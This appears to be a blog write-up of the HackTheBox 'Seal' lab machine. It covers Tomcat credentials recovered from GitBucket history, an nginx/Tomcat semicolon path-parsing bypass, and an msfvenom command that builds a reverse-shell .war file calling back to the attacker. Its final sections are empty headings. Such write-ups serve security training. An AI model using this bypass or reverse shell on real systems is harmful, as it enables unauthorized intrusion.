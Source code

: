 ```yaml
---
layout: post
title: HackTheBox Seal Write-up
---
```


<h2>Overview</h2>

Seal is a medium-rated HackTheBox linux machine. An exposed GitBucket service reveals Apache Tomcat credentials, but I don't have direct access to the manager panel. Instead, I discover
the presence of a reverse proxy which I exploit by abusing the parsing differences between the web servers, allowing access to the manager panel. A backup-creating cron job is exploited
to create a readable copy of luis' ssh key to escalate to this user. Sudo privileges as luis reveals ansible commands may be run as root, allowing me to give /bin/bash setuid permissions
and gaining a root shell.

<h2>Initial Enumeration</h2>

<h2>GitBucket</h2>

Heading over to port 8080 reveals a GitBucket page.

![image](https://user-images.githubusercontent.com/44827973/143973584-3feda7fe-ef33-4bed-8eb4-5c6318a7c3d1.png)

Google reveals GitBucket's default credentials.

![image](https://user-images.githubusercontent.com/44827973/143973741-194c6dfb-c4d7-44f0-becd-c54b48130c95.png)

These did not work, so instead I registered an account and signed in.

<h3>Tomcat credentials</h3>

I can see there are two webservers listed here.

![image](https://user-images.githubusercontent.com/44827973/143973886-59e8e32b-1066-453c-b5d9-751a3d2f9827.png)

Knowing Tomcat credentials are in plaintext in a file called tomcat-users.xml, I check root/seal_market/tomcat/tomcat-users.xml. Only the default credentials are shown.

I am not familiar with GitBucket. However, knowing it is probably Git-related, and Git is all about version control, its worth checking for older versions of files.

As is evident from the tomcat GitBucket page, there have been 5 commits in the past.

![image](https://user-images.githubusercontent.com/44827973/143975221-a27557ac-39b3-4c43-a29b-fcb4bc3167c6.png)

I check the change history, and am rewarded with tomcat credentials.

![image](https://user-images.githubusercontent.com/44827973/143975259-93d23d44-a606-4c87-9e81-06ad6de41bcc.png)
![image](https://user-images.githubusercontent.com/44827973/143975271-845601ae-5126-4334-8f20-deac3ced574c.png)

I try to log into the manager panel, but I am Forbade by the nginx server.

![image](https://user-images.githubusercontent.com/44827973/143975421-f305d17b-4811-4699-8a72-8d6178acf7db.png)

<h3>Multiple servers</h3>

On an earlier page I noticed a ToDo list which provides interesting details.

![image](https://user-images.githubusercontent.com/44827973/143975590-ca1afbe1-2154-46b5-b090-5738599cec31.png)

It suggests the manager panel has not yet been disabled and we may yet be able to access it.

As was revealed earlier, there appears to be two web servers running - nginx and tomcat. Checking the Issues tab reveals correspondence between devs, which seems to suggest nginx is used as a load balancer.

![image](https://user-images.githubusercontent.com/44827973/143975961-9111c08e-2d29-4d96-baa0-ee9de834a631.png)

Further evidence of two web servers can be seen by attempting to log into the manager panel, compared to typing in a non-existent resource. See how the server error messages differ, one being nginx and the other being Apache Tomcat?

![image](https://user-images.githubusercontent.com/44827973/143975421-f305d17b-4811-4699-8a72-8d6178acf7db.png)

![image](https://user-images.githubusercontent.com/44827973/143977497-b03fb563-c2c1-4c45-acb3-760bf45d2540.png)


Checking the server blocks / routes defined by the nginx server can be done by looking at the nginx/sites-available/default file:

```
	location /manager/html {
		if ($ssl_client_verify != SUCCESS) {
			return 403;
		}
		proxy_set_header        Host $host;
		proxy_set_header        X-Real-IP $remote_addr;
		proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
		proxy_set_header        X-Forwarded-Proto $scheme;
		proxy_pass          http://localhost:8000;
		proxy_read_timeout  90;
		proxy_redirect      http://localhost:8000 https://0.0.0.0;
		# First attempt to serve request as file, then
		# as directory, then fall back to displaying a 404.
#		try_files $uri $uri/ =404;
	}
 
 
	location /admin/dashboard {
		if ($ssl_client_verify != SUCCESS) {
			return 403;
		}
		proxy_set_header        Host $host;
		proxy_set_header        X-Real-IP $remote_addr;
		proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
		proxy_set_header        X-Forwarded-Proto $scheme;
		proxy_pass          http://localhost:8000;
		proxy_read_timeout  90;
		proxy_redirect      http://localhost:8000 https://0.0.0.0;
		# First attempt to serve request as file, then
		# as directory, then fall back to displaying a 404.
#		try_files $uri $uri/ =404;
	}
 
        location /host-manager/html {
                if ($ssl_client_verify != SUCCESS) {
                        return 403;
                }
                proxy_set_header        Host $host;
                proxy_set_header        X-Real-IP $remote_addr;
                proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
                proxy_set_header        X-Forwarded-Proto $scheme;
                proxy_pass          http://localhost:8000;
                proxy_read_timeout  90;
                proxy_redirect      http://localhost:8000 https://0.0.0.0;
                # First attempt to serve request as file, then
                # as directory, then fall back to displaying a 404.
#               try_files $uri $uri/ =404;
        }
 
 
	location / {
                proxy_set_header        Host $host;
                proxy_set_header        X-Real-IP $remote_addr;
                proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
                proxy_set_header        X-Forwarded-Proto $scheme;
                proxy_pass          http://localhost:8000;
                proxy_read_timeout  90;
                proxy_redirect      http://localhost:8000 https://0.0.0.0;
}	

```
A number of location directives are defined here. Notice that the tomcat manager panel URL does get forwarded if I pass the "ssl_client_verify" check. All other URLs not matching any of the listed directives will be sent to the apache server via the catch-all "/". Earlier, when I attempted to access "/manager/html", I was forbidden by the nginx server because I matched the location directive, and failed the ssl client verify check. When I type in gibberish, my request of "/fewf" is forwarded to the tomcat server which responds saying it can't find that page.

<h3>Abusing parsing differences between web servers</h3>

Different web servers parse certain characters in different ways. [https://superevr.com/blog/2011/three-semicolon-vulnerabilities](Apache Tomcat supports the passing of "path parameters" within the URL), which are separated by a semicolon. Nginx reads the entire URL string and does nothing with the semicolon. By injecting a semicolon, we are able to bypass the routes above (and therefore bypass ssl_client_verify) to access the manager panel.

If I type in the URL "https://10.10.10.250/manager;test/", I am greeted with the login prompt for the manager panel.

![image](https://user-images.githubusercontent.com/44827973/143978367-6d34173c-3bdc-41f4-9d9f-b2edb306ffc2.png)

Here is how each server translates "/manager;test/":

![image](https://user-images.githubusercontent.com/44827973/143978420-d8e3704f-f4b8-4589-97e7-1446229df66f.png)

Now I am able to input the credentials we found earlier, and successfully log into the manager panel.

<h2>Shell as tomcat</h2>

Now that I am able to access the Tomcat manager panel, it is trivial to get a shell. I simply need to create a .war shell and upload and deploy it, catching it on a reverse shell
listener on my attacker machine.

I use this command to generate a .war reverse shell, courtesy of [https://netsec.ws/?p=331](this website):
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

I create a netcat listener for the reverse shell. I upload it and deploy the .war file:

![image](https://user-images.githubusercontent.com/44827973/143978836-e3a660f8-1667-432a-807c-57d82de22761.png)
![image](https://user-images.githubusercontent.com/44827973/143978843-4d14d7ba-d08b-451c-9d5b-8d50b13170b6.png)

and get a reverse shell back.

![image](https://user-images.githubusercontent.com/44827973/143978978-8f97d55c-9479-4d39-90a3-e349be7894e1.png)

<h2>Shell as luis</h2>

I upgrade my shell to a fully interactive TTY shell using python. This means I can input certain commands without the shell literally interpreting, such as moving around with arrow keys / ctrl+c to cancel hung commands.

![image](https://user-images.githubusercontent.com/44827973/143979042-6738cc7a-a1bd-4ae2-8173-96e26c2f045b.png)

Now I'm ready to start hunting for ways to escalate. Checking the contents of /etc/passwd reveals the user "luis".

Checking processes with "ps aux" reveals luis is intermittently running a command, likely as per a cron job:

![image](https://user-images.githubusercontent.com/44827973/143979432-df8d50fe-521d-4f46-ba19-7e0faaa29815.png)



<h3>Sudo privileges</h3>


<h2>Becoming root</h2>
